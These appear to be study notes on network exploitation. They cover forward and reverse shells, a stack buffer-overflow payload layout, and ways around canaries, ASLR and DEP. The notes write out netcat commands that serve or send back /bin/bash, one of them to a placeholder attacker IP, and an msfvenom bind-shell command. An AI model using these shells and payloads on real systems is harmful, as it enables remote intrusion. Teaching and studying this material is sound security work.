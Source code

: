 ### Concept
- **Scenario**: Exploit network services without local access
- **Challenge**: Cannot inject local shell, need remote backdoor

### Forward Shell vs Reverse Shell

#### Forward Shell
- **Method**: Server opens listening port for incoming connections
- **Command**: `netcat -vl -p 3333 -e /bin/bash`
- **Limitation**: Requires open inbound ports (blocked by firewalls)

#### Reverse Shell
- **Method**: Compromised server connects back to attacker
- **Advantage**: Works through firewalls (outbound connections usually allowed)
- **Process**:
  1. Attacker listens: `netcat -lvp 5555`
  2. Compromised server connects: `netcat attacker_ip 5555 -e /bin/bash`

### Exploitation Process
1. **Create vulnerable server**: Echo server with buffer overflow
2. **Generate shellcode**: Use msfvenom for bind shell payload
   ```bash
   msfvenom -p linux/x86/shell_bind_tcp LPORT=3334 -f python -b 0x00
   ```
3. **Craft exploit**: NOP sled + shellcode + padding + return address
4. **Execute**: Send payload to crash server and gain shell access

### Payload Structure
```python
payload = NOP_sled + shellcode + padding + return_address
# Where return_address points into NOP sled
```

---

## Key Defense Bypass Techniques

### 1. Canary Bypass Methods
- **Exception handling**: Trigger exception before canary check
- **Partial overwrites**: Modify return address without touching canary
- **Canary extraction**: Brute force canary value through crash-restart cycles

### 2. ASLR Bypass Methods
- **Information leaks**: Extract addresses through error messages
- **Brute force**: Try multiple addresses (effective with crash-restart)
- **Partial overwrites**: Modify only low bytes of addresses

### 3. DEP Bypass Methods
- **Return-to-libc**: Use existing executable code
- **ROP (Return-Oriented Programming)**: Chain together code gadgets
- **JIT spraying**: Abuse Just-In-Time compilers that need executable memory

---